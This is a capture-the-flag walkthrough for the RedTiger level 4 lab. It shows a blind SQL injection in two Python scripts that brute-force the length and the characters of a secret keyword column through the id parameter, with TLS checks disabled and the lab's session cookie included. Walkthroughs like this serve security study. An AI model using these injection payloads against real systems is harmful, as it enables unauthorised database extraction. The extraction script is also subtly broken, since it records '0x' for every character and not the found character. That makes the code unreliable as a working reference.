 ================================================================================================================
[redtiger] level4
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="level4.php?id=1 and if((select length(keyword) from level4_secret)=%s,1,0)",arrowhead="normal"];
        step3 -> step2[label="column length",arrowhead="normal"];
        step4 -> step5[label="level4.php?id=1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- Target: Get the value of the first entry in table level4_secret in column keyword
- Disabled: like

.. code-block:: html

    <a href="?id=1">Click me</a>
    Query returned 1 rows.
    <form method="post">
        Word: <input type="text" name="secretword">
        <input type="submit" name="go" value="Go!">
    </form>
    


|

Column Length
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level4.php"
    cookies = {
        "level4login":"dont_publish_solutions_GRR%21"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "id": "1 and if((select length(keyword) from level4_secret)=%s,1,0)" % str(l)
        }
        print "1 and if((select length(keyword) from level4_secret)=%s,1,0)" % str(l)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content:
            print r.content
        bef_ret = r.content



|

Data Extract
================================================================================================================


.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level4.php"
    cookies = {
        "level4login":"dont_publish_solutions_GRR%21"
    }

    n = 0
    bef_ret = ''
    ans = ''
    # column length = 17
    for l in range(1,18):
        # character range
        for m in range(31,128):
            params = {
                "id": "1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)" % (str(l),hex(m))
            }
            print "1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)" % (str(l),hex(m))
            r = requests.post(url, cookies=cookies, params=params, verify=False)
            if bef_ret!=r.content and bef_ret!='':
                print r.content
                ans += str(hex(m))[:2]
                break
            bef_ret = r.content

    print ans

